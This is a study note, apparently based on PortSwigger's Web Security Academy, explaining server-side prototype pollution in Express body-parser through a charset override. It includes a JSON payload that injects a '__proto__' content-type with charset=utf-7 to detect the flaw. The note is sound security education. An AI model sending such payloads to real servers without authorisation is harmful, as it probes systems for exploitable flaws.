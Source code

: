 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/charset-override/"}
---
```



---

Express servers use middleware to process requests before passing them to handlers. The **body-parser** module, for example, parses request bodies and creates `req.body`.

```js
var charset = getCharset(req) || 'utf-8' 

function getCharset (req) { 
	try { 
		return (contentType.parse(req).parameters.charset || '').toLowerCase() 
	} catch (e) {
		return undefined 
	}
} 
read(req, res, next, parse, debug, { 
	encoding: charset, 
	inflate: inflate, 
	limit: limit, 
	verify: verify 
})
```

In the code above, `getCharset(req)` attempts to parse the `Content-Type` header to determine the character encoding. If **no charset** is defined, it falls back to an empty string (`''`). This value is then passed to `read()` as an **encoding option**, defaulting to `'utf-8'`.

Since `charset` is an empty string, we can attempt to exploit it using Prototype Pollution by injecting a different/custom encoding.

---

If you can find an object whose properties are visible in a response, you can use this to probe for sources. In the following example, we'll use UTF-7 encoding and a JSON source.

1. Add an arbitrary UTF-7 encoded string to a property that's reflected in a response. For example, `foo` in UTF-7 is `+AGYAbwBv-`.
    
```json
	{  
		"role":"+AGYAbwBv-" 
	}
```

2. Send the request. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.

3. Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:
    
```json
	{ 
		"role":"+AGYAbwBv-", 
		"__proto__":{ 
			"content-type": "application/json; charset=utf-7" 
		} 
	}
```

3. Repeat the first request. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:
    
```json
	{ 
		"sessionId":"0123456789", 
		"username":"wiener", 
		"role":"foo" 
	}
```